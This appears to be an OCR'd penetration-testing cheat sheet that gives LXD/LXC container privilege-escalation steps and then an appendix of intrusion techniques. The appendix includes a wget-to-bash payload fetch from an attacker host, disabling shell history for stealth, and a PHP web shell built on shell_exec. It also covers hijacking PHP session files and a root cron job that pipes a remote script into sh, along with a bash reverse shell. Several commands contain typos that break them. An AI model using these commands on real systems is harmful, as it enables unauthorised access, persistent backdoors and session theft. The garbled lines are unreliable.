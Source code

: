 ````
```
/nameofmount/x
```
## Find lxd and lxc?
### Enumerate and file transfer an image
```
lxd version
lxc image list
```
### 1. import image 2. run image 3. /mnt into box itself 4. start container and run sh
```
lxc image import ./alpine*.tar.gz --alias $myimage
lxc init $myimage $mycontainer -c security.privileged=true
lxc config device add $mycontainer  mydevice disk source=/ path=/mnt/root recursive=true
xc start $mycontainer
lxc exec $mycontainer /bin/sh
cd /mnt/INTO/INTOAGAIN # Metaphorical PrivEsc method of a portal gun and pirate ship boarding. :)
```

## Appendix 
#### File transfer
```
wget http://attacker:port/blackhat | bash
scp /file/path/to/favourite/script target@myhost.com:/file/path/target
curl -o badpackage.sh
```

#### Stealth
```
unset HISTFILE          disable writing to history file
```

####Backdoors required?
## Reference: https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
## ssh
# It's not very hidden, easy to remove or detect
```
ssh-keygen
#drop public key in /target/.ssh
mkdir .ssh
chmod 600 id_rsa
```
## php
# web root /var/www/html
touch shell.php # add the below:
# Or add within a file of this directory
# Change the 'cmd' paramtre to something that LESS like to be called 
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
## stealing php session
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
# Session files and cookie name are configurable in php.ini:
session.save_path
session.name
## cronjob
CT=$(crontab -l)
CT=$CT$'\n* *     * * *   root    curl http://<ip>:<port>/run | sh'
printtf "$CT | cronbtab -
# Serve shell script, for example:
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
````
